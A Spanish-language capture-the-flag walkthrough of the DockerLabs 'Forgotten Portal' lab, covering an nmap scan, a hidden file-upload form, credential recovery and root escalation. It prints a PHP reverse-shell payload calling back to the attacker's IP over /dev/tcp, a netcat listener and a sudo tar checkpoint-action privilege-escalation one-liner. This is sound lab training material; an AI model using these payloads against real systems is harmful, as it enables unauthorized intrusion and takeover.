



Máquina "Forgotten Portal" de [DockerLabs](https://dockerlabs.es)

Autor: [Cyberland](https://cyberlandsec.com/)

Dificultad: Medio



# Reconocimiento

Vamos a empezar con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec  4 09:53:02 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-04 09:53:03 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPqFV+NfpZGuIDsCCv9gPbHdmIQCjA9+nAnq29cKRh9lI+rnshZyqxyh9JssAFr8o+FNZejMlW/A0WBpMx09uJ8=
|   256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOq/ECOx7kvdWUnIws1W68bb7yWOLN1ciw36P4DqfMa4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  4 09:53:11 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Tenemos 2 puertos abiertos:

`80: Apache httpd 2.4.58`

`22: OpenSSH 9.6p1`

y al parecer estamos frente a una máquina ubuntu.

SI vamos al puerto 80 desde el navegador, veremos una web sin nada interesante. Pero si a esta le revisamos el código fuente, vermos la siguiente nota:



Por lo que si vamos a `m4ch1n3_upload.html`, veremos un formulario para subir archivos.

# Intrusión

Ahora nos creamos un script en php en nuestra máquina el cual contenga lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

una vez creado, lo subimos.

Ahora solo nos queda escuchar con netcat por el puerto 443 (`sudo nc -nlvp 443`) y entrar a el archivo que subimos desde la web, una vez entremos nos llegará la shell.

# Escalada De Privilegios

### www-data

Si vamos a /var/www/html, veremos un archivo llamado `access_log`, el cual en una parte dice lo siguiente:

```css
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
```

y si pasamos `YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3` a texto (es base64) nos dice lo siguiente:

```css
alice:s3cr3tp@ssw0rd^487
```

Por lo que ya tenemos credenciales para alice.

### Alice

Si vamos a la home de alice, veremos un reporte en una carpeta llamada "incidents", al leerlo nos dice de manera resumida, que en la home de todos los usuarios, hay un id_rsa, el cual es de bob y tambien nos da la contraseña del archivo:

```css
**Passphrase del Usuario `bob`:** `cyb3r_s3curity`
```

por lo que vamos a `~/.ssh/` y copiamos el archivo id_rsa a nuestra maquina local, luego le damos permisos de ejecución (chmod 600 id_rsa) y nos conectamos como bob:

```css
ssh -i id_rsa bob@172.17.0.2
```

### Bob

Siendo bob, podemos ejecutar como root el binario tar, por lo que luego de buscar, veo que podemos escalar a root ejecutando lo siguiente:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### Root



Gracias por leer :)